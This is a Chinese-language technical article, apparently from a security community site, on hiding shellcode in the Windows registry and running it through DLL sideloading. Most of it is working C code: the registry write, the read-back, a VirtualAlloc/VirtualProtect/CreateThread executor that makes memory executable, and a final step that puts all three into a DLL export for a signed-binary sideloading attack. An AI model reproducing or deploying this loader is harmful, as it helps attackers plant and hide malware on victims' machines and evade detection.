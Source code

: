 

# 白加黑写入 Shellcode 到注册表上线 - 先知社区

白加黑写入 Shellcode 到注册表上线

- - -

其实本质就是将 shellcode 写入到注册表中，然后读取注册表中的 shellcode，然后创建线程去执行 shellcode。

如下图：

[![](assets/1704762277-823e7311f2ddbcc1c646236ff0f92048.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240107121810-c45f6a16-ad13-1.png)

## 写入注册表 shellcode

这里将 shellcode 写入到注册表中，在我们需要的时候再去读取然后执行。

这里用到如下两个 Windows API 函数。

```plain
RegOpenKeyExA
RegSetValueExA
```

## RegOpenKeyExA

```plain
LSTATUS RegOpenKeyExA(
  [in]           HKEY   hKey,
  [in, optional] LPCSTR lpSubKey,
  [in]           DWORD  ulOptions,
  [in]           REGSAM samDesired,
  [out]          PHKEY  phkResult
);
```

第一个参数需要的是打开注册表的句柄。

第二个参数表示要打开注册表子项的句柄。

第三个参数表示指定要在打开密钥时应用的选项。

最重要是的是第四个参数是对注册表的访问权限，因为我们要在注册表下创建一个 String Value，所以这里的权限我们设置为 KEY\_SET\_VALUE 即可。

如下代码：

```plain
RegOpenKeyExA(HKEY_CURRENT_USER,REGISTRY,0,KEY_SET_VALUE,&keys);
```

接下来就是设置注册表的值了。

这里使用的是 RegSetValueExA 函数 如下：

```plain
LSTATUS RegSetValueExA(
  [in]           HKEY       hKey,
  [in, optional] LPCSTR     lpValueName,
                 DWORD      Reserved,
  [in]           DWORD      dwType,
  [in]           const BYTE *lpData,
  [in]           DWORD      cbData
);
```

第一个参数就是注册表的句柄，而且它的权限必须是 KEY\_SET\_VALUE，也就是我们上面设置的。

第二个参数是我们要设置值的名称，就是注册表里面值得名称，第三个参数是保留参数必须为 0，第四个参数是注册表里面值得类型，这里指定为 REG\_BINARY，表示任意的二进制数据，这里可以参考微软官网：[Registry value types - Win32 apps | Microsoft Learn](https://learn.microsoft.com/zh-cn/windows/win32/sysinfo/registry-value-types)

第五个参数表示你要存储的数据，也就是你的 shellcode，最后一个参数是你 shellcode 的大小。

如下代码实现：

```plain
#define REGISTRY "Control Panel" //这里是写入注册表的目录 也就是 计算机\HKEY_CURRENT_USER\Control Panel
#define REGSTRING "relaysec" //定义你注册表写入值得名字
BOOL WirteShellcodeRegister(PBYTE shellcode,DWORD shellcodeSize) {
     BOOL        bs = TRUE;
     LSTATUS     sts = NULL;
     HKEY        keys = NULL;
     sts = RegOpenKeyExA(HKEY_CURRENT_USER,REGISTRY,0, KEY_SET_VALUE, &keys);
     if(sts == NULL){
         bs = FALSE;
     }
     sts = RegSetValueExA(keys, REGSTRING, 0, REG_BINARY, shellcode, shellcodeSize);
     if(sts == NULL){
         bs = FALSE;
     }
_EndOfFunction:
    if (keys)
        RegCloseKey(keys);
    return bs;
}
```

成功写入：

[![](assets/1704762277-dba82b87dbe50f8a23afcb44fa9e85fd.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240107121839-d5a1d926-ad13-1.png)  
写入之后我们接下来要进行读取注册表中的 shellcode。

## 读取注册表 shellcode

这里需要用到如下的 Windows API 函数：

```plain
RegGetValueA
HeapAlloc
```

## RegGetValueA

```plain
LSTATUS RegGetValueA(
  [in]                HKEY    hkey,
  [in, optional]      LPCSTR  lpSubKey,
  [in, optional]      LPCSTR  lpValue,
  [in, optional]      DWORD   dwFlags,
  [out, optional]     LPDWORD pdwType,
  [out, optional]     PVOID   pvData,
  [in, out, optional] LPDWORD pcbData
);
```

第一个参数依旧是注册表项的句柄，而且必须是 KEY\_QUERY\_VALUE 权限的。

第二个参数填写注册表的路径，它将从子项中检索注册表的值。

第三个参数表示注册表的名称。

第四个参数用于限制数据类型，如果值的数据类型不符合此条件，则函数将失败，这里我们设置 RRF\_RT\_ANY 即可，没有类型限制。

第五个参数是存储在指定值中的数据类型的代码，一般设置为 NULL。

第六个参数表示接收存储在指定值的指针，如果不需要值得话也可以设置为 NULL。

最后一个参数接收值数据的缓冲区的指针，这里我们设置接收一下即可。

如下完整代码：

```plain
BOOL ReadShellcodeRegister(PBYTE* shellcode, SIZE_T* shellcodeSize) {
    LSTATUS    sts = NULL;
    DWORD       dread = NULL;
    PVOID       ps = NULL;
    sts = RegGetValueA(HKEY_CURRENT_USER, REGISTRY, REGSTRING, RRF_RT_ANY, NULL, NULL, &dread);
    if (sts !=0L) {
        return FALSE;
    }
    ps = HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, dread);
    if (ps == NULL) {
        return FALSE;
    }
    sts = RegGetValueA(HKEY_CURRENT_USER, REGISTRY, REGSTRING, RRF_RT_ANY, NULL, ps, &dread);
    if (sts != 0L) {
        return FALSE;
    }
    *shellcode = (PBYTE)ps;
    *shellcodeSize = dread;
    return TRUE;
}
```

这里为什么要读取两次，因为第一次读取的是注册表项，第二次才是值。

[![](assets/1704762277-2b0cc0f76f4928db1de0d9d726b8b525.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240107121906-e5cb2712-ad13-1.png)  
读取到值之后然后赋值给 shellcode。

读取完成之后就是执行了，这里我们使用创建线程的方式去执行。

首先申请一块内存：

```plain
BOOL executeShellcode(PVOID shellcode, SIZE_T shellcodeSize){
     DWORD dwOldProtection = NULL;
     PVOID shellcodeAddress = shellcodeAddress = VirtualAlloc(NULL, shellcodeSize, MEM_COMMIT | MEM_RESERVE,      PAGE_READWRITE);
}
```

[![](assets/1704762277-f13fb33448ce4e44486e2ab6cd74ba14.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240107121913-e9cb5f4e-ad13-1.png)  
申请内存之后将 shellcode 复制进去。

```plain
BOOL executeShellcode(PVOID shellcode, SIZE_T shellcodeSize){
     DWORD dwOldProtection = NULL;
     PVOID shellcodeAddress = shellcodeAddress = VirtualAlloc(NULL, shellcodeSize, MEM_COMMIT | MEM_RESERVE,      PAGE_READWRITE);
     if (shellcodeAddress == NULL) {
            return FALSE;
    }
     memcpy(shellcodeAddress, shellcode, shellcodeSize);
     memset(shellcode, '\0', shellcodeSize);
}
```

[![](assets/1704762277-ec032d662a0de7f8a951309e8a1d5e2e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240107121920-edc47054-ad13-1.png)  
copy 进去之后将权限更改为 PAGE\_EXECUTE\_READWRITE，然后创建线程执行。

```plain
BOOL executeShellcode(PVOID shellcode, SIZE_T shellcodeSize){
     DWORD dpOld = NULL;
     PVOID shellcodeAddress = shellcodeAddress = VirtualAlloc(NULL, shellcodeSize, MEM_COMMIT | MEM_RESERVE,      PAGE_READWRITE);
     if (shellcodeAddress == NULL) {
            return FALSE;
    }
     memcpy(shellcodeAddress, shellcode, shellcodeSize);
     memset(shellcode, '\0', shellcodeSize);
      if (!VirtualProtect(shellcodeAddress, shellcodeSize, PAGE_EXECUTE_READWRITE, &dpOld)) {
            return FALSE;
     }
     getchar();

    if (CreateThread(NULL, NULL, (LPTHREAD_START_ROUTINE)shellcodeAddress, NULL, NULL, NULL) == NULL) {
        return FALSE;
    }

    return TRUE;
}
```

[![](assets/1704762277-054288d857eee6f471f8d1d26f5e0302.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240107121925-f10ee348-ad13-1.png)

## 集成到白加黑中

我们直接将前面所写的写入，读取，执行这三部的代码 copy 到 dll 中，然后放到导出函数去执行即可。

[![](assets/1704762277-84472f7f12579ed9b1fde9d9c2d85db8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240107121930-f43c4650-ad13-1.png)

[![](assets/1704762277-b939acb301a01134405aabe5b0cabc46.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240107121937-f8647ad6-ad13-1.png)
